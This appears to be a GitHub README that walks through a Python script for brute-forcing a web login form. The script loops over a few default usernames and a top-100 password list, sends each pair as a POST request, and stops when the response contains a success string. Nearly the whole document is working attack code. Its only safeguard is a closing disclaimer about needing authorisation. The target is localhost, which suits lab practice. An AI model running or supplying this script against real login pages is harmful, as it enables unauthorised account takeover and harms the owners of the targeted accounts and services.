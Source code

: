 # Web-Login-Form-Brute-Forcing

## Steps to perform Brute Forcing on Login Pages using the provided script:

#### 1. Import required libraries:
    import requests
    import sys
<br>

#### 2. Set up target URL and parameters:
    target = "http://127.0.0.1:5000"
    usernames = ["admin", "user", "test"]
    passwords = "top-100-list.txt"
    needle = "Welcome Back"
<br>

#### 3. Create a loop to iterate through usernames:
    for username in usernames:

<br>

#### 4. Open and read the password file:
    with open(passwords, "r") as passwords_list:

<br>

#### 5. Create a nested loop to iterate through passwords:
    for password in passwords_list:
                password = password.strip("\n").encode()

<br>

#### 6. Display current attempt:
    sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
                sys.stdout.flush()

<br>

#### 7. Send POST request to the target URL:
    r = requests.post(target, data={"username": username, "password": password})

<br>

#### 8. Check if login was successful:
    if needle.encode() in r.content:
                    sys.stdout.write("\n")
                    sys.stdout.write("\t[>>>>>>] Valid Password '{}' found for user '{}'!".format(password.decode(), username))
                    sys.exit()

<br>

#### 9. Handle case when no password is found:
    sys.stdout.flush()
            sys.stdout.write("\n")
            sys.stdout.write("\tNo Password Found for '{}'!".format(username))
            sys.stdout.write("\n")

<br>

_This script provides a basic framework for brute-forcing web login forms._ 

_However, it's important to note that using such scripts without permission is illegal and unethical._

_Always ensure you have proper authorization before testing security measures._
